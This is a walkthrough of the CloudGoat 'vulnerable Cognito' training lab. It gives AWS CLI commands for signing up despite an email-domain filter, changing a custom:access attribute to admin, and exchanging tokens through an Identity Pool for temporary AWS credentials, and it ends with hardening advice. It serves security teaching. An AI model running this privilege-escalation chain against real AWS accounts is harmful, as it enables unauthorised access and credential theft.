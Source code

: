 # 🛠️ CloudGoat vulnerable Cognito Writeup

## ⚡ TL;DR

We exploit a misconfigured AWS Cognito environment by signing up through a vulnerable User Pool, retrieving an access token, and leveraging it to escalate privileges via custom attributes. This access allows us to assume roles in an Identity Pool and retrieve temporary AWS credentials—facilitating lateral movement or privilege escalation within the environment.

---

## 🎯 Target Information

apigateway_url = "https://xxxx.execute-api.us-east-1.amazonaws.com/vulncognito/cognitoctf-cgid730b6h5u8m/index.html"
cloudgoat_output_aws_account_id = "xxxx"
---

## 🧽 Step-by-Step Exploitation

### 🔍 Step 1: Reconnaissance & Initial Access

The application is hosted at:

```
https://xxx.execute-api.us-east-1.amazonaws.com/vulncognito/cognitoctf-cgid730b6h5u8m/index.html
```

Upon visiting the site, we find login and sign-up functionality. Attempting to sign up reveals a filter: only emails ending in `@ecorp.com` are accepted.

![image](https://github.com/user-attachments/assets/3b46f796-feb5-4178-aaa2-93e161c5e2e3)

Trying to sign up:

![image (1)](https://github.com/user-attachments/assets/c04436b5-742f-4b4a-8b58-0e3c08800bf9)

Inspecting the page source, we find credentials hardcoded in JavaScript:

```js
UserPoolId: 'us-east-1_mSaMI1nQ1',
ClientId: '24m03titp7v5d0eli306vqimto',
```

This gives us what we need to begin interacting with AWS Cognito via CLI.

---

### ✉️ Step 2: User Registration via AWS CLI

Using the `ClientId`, we attempt to register:

```bash
aws cognito-idp sign-up \
  --client-id 24m03titp7v5d0eli306vqimto \
  --username test@test.com \
  --password 'Test1@test.com' \
  --user-attributes Name=email,Value=test@test.com Name=given_name,Value=test Name=family_name,Value=test
```

Response:

```json
{
  "UserConfirmed": false,
  "CodeDeliveryDetails": {
    "Destination": "t***@t***",
    "DeliveryMedium": "EMAIL",
    "AttributeName": "email"
  },
  "UserSub": "d4a84488-c001-705a-8fb9-164a987e4a4e"
}
```

We confirm the user:

```bash
aws cognito-idp confirm-sign-up \
  --client-id 24m03titp7v5d0eli306vqimto \
  --username test@test.com \
  --confirmation-code <CODE_FROM_EMAIL>
```

---

### 🧰 Step 3: Authentication & Access Token Retrieval

Login now redirects us to a new page:

![image (2)](https://github.com/user-attachments/assets/0bde252f-7b19-4e5e-a3cd-1524122c12d2)

We use **Burp Suite** to intercept the login and capture our **access token**.

![cognito](https://github.com/user-attachments/assets/c5952bd1-b17a-40d1-97cb-655119f81765)


We validate the token via:

```bash
aws cognito-idp get-user --access-token <ACCESS_TOKEN>
```

Which reveals:

```json
"custom:access": "reader"
```

This custom attribute seems to control access levels.

---

### ⬆️ Step 4: Privilege Escalation via Attribute Modification

We attempt to elevate our privileges by modifying the `custom:access` attribute:

```bash
aws cognito-idp update-user-attributes \
  --access-token <ACCESS_TOKEN> \
  --user-attributes '[{"Name":"custom:access","Value":"admin"}]'
```

The update is successful. We now potentially have admin-level access.

---

### 🧺 Step 5: Linking to Identity Pool

With elevated privileges, we now attempt to get temporary AWS credentials by linking the token to the Cognito Identity Pool:

```bash
aws cognito-identity get-id \
  --region us-east-1 \
  --identity-pool-id us-east-1:a96c9f79-324c-c9d1-3de8-ec55221338c8 \
  --logins '{"cognito-idp.us-east-1.amazonaws.com/us-east-1_mSaMI1nQ1":"<ACCESS_TOKEN>"}'
```

Returns:

```json
"IdentityId": "us-east-1:a96c9f79-324c-c9d1-3de8-ec55221338c8"
```

Now we request credentials:

```bash
aws cognito-identity get-credentials-for-identity \
  --region us-east-1 \
  --identity-id us-east-1:a96c9f79-324c-c9d1-3de8-ec55221338c8 \
  --logins '{"cognito-idp.us-east-1.amazonaws.com/us-east-1_mSaMI1nQ1":"<ACCESS_TOKEN>"}'
```

We receive:

```json
"AccessKeyId": "ASIA...",
"SecretKey": "xxxxx",
"SessionToken": "xxxxx",
"Expiration": "2025-06-04T21:43:26-04:00"
```

---

### 🧰 Step 6: Configure and Verify Access

We configure a new AWS CLI profile with our credentials:

```bash
aws configure --profile cognito
```

Then verify access:

```bash
aws sts get-caller-identity --profile cognito
```

Output:

```json
{
  "UserId": "AROA2S3E7PEZIU2AWMXNC:CognitoIdentityCredentials",
  "Account": "727671863602",
  "Arn": "arn:aws:sts::727671863602:assumed-role/cognito_authenticated-cgid730b6h5u8m/CognitoIdentityCredentials"
}
```

---

### 🔎 Step 7: Enumerating Permissions with Pacu

We use [Pacu](https://github.com/RhinoSecurityLabs/pacu) to discover the permissions tied to the assumed role:

```json
"Permissions": {
  "Allow": [
    "sts:GetCallerIdentity",
    "dynamodb:DescribeEndpoints",
    "lambda:ListFunctions",
    "lambda:ListEventSourceMappings",
    "lambda:ListLayers",
    "lambda:GetAccountSettings",
    "s3:ListBuckets"
  ],
  "Deny": []
}
```

While limited, these permissions still provide actionable access to several services including **Lambda**, **S3**, and **DynamoDB**.

---

## 🧠 Key Takeaways

- **Client IDs and User Pool IDs** hardcoded in frontend JavaScript are a major security risk.
- **Attribute update policies** must be tightly controlled—especially for custom fields like `custom:access`.
- **Identity Pool trust relationships** should strictly validate user claims and access levels.

---

## 🐻 Conclusion

This exploitation chain demonstrates how seemingly benign AWS Cognito misconfigurations can lead to privilege escalation, credential exposure, and lateral movement across an AWS account. Secure your Cognito implementation by:

- Removing sensitive config from frontend apps
- Restricting attribute updates
- Locking down identity pool trust policies
